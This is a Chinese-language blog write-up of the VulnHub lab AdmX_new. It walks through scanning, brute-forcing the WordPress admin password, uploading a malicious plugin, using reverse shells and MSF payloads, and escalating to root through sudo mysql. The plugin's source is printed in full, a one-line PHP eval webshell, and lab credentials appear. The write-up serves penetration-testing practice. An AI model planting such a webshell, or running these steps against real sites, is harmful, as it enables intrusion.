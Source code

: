 ```yaml
---
title: VulnHub靶场 AdmX_new
description: VulnHub靶场 AdmX_new WP
pubDate: 11 06 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.png
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```

## 说明

靶场里存在两个 flag

## 主机发现

进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-1.png)

得到目标机器 IP 为 `192.168.217.144`，进行端口服务发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-5.png)

发现 80 端口，运行 HTTP 服务，访问目标页面。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-2.png)

是一个 Ubuntu 下 Apache 的默认页面

## Web 后台登录

对该网站进行目录扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-3.png)

发现如下目录，访问 `http://192.168.217.144//tools/adminer.php`，得到数据库连接界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-4.png)

访问 `http://192.168.217.144/wordpress/` ，经过漫长的访问，才出现一个基本的 Web 框架

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-6.png)

不对劲，查看网络情况

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-7.png)

IP 是硬编码写死的，通过 burp 拦截，把这个 IP 改成真实的 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-8.png)

然后再进行测试，发现可以正常访问。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-9.png)

访问 `http://192.168.217.144/wordpress/wp-login.php` 来到 wordpress 的登录界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-10.png)

尝试弱口令登录，发现存在 admin 用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-11.png)

利用 burp 对 admin 用户进行密码爆破，得到密码为 `adam14`，成功登录后台

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.png)

## Wordpress 插件 getshell

在主题模板上放个木马，这里选择在 404 页面放了个一句话木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-13.png)

更新页面，结果报错失败了

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-14.png)

Wordpress 支持上传 ZIP 格式的插件包。我们可以写一个符合 Wordpress 格式的 webshell 然后让网站以插件加载它。

```php
<?php
/*
Plugin Name: Webshell Plugin
Description: Wordpress WebShell
Version: 1.0
Author: trtyr
*/

@eval($_POST['cmd']);
?>
```

然后将其打包成 zip，上传

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-15.png)

 直接蚁剑连接
 
  ![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-16.png)``

## 内网渗透

我们现在拿到了蚁剑的 shell，上传一个 MSF 木马，再上线一下 MSF

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-17.png)

主机里存在两个 flag。我们先去看看 `/home` 目录下几个用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-18.png)

存在一个 `wpadmin` 用户，在文件夹内发现 `local.txt`，结果没有权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-19.png)

我们回去看一下网站的数据库配置文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-20.png)

得到一个用户名密码 `Wp_Admin#123`，试试能不能登录数据库

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-21.png)

数据库登录失败，尝试拿这个密码登录用户。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-22.png)

登录失败，我们还知道网站密码是 `adam14`，挨个尝试，结果用户登录上去了。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-23.png)

在当前用户下，通过 curl 下载一个新的 MSF 木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-24.png)

没有写入权限，我们再上线一个 nc。结果这里是个大坑，试了好几遍都不行，后来发现主机有 python3，拿 python 去反弹了 shell。

拿到 shell 后直接去看那个 `local.txt`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-25.png)

得到第一个 flag。然后看一下这个用户能不能执行 `sudo -l`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-26.png)

可以发现可以执行 `/usr/bin/mysql -u root -D wordpress -p` 命令，尝试使用 `sudo` 运行该命令。经过测试，密码又是 `adam14`，拿到数据库 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-27.png)

使用 `system` 命令直接上 bash

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-28.png)

拿到 root 权限，去 root 目录下，拿到第二个 flag

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-29.png)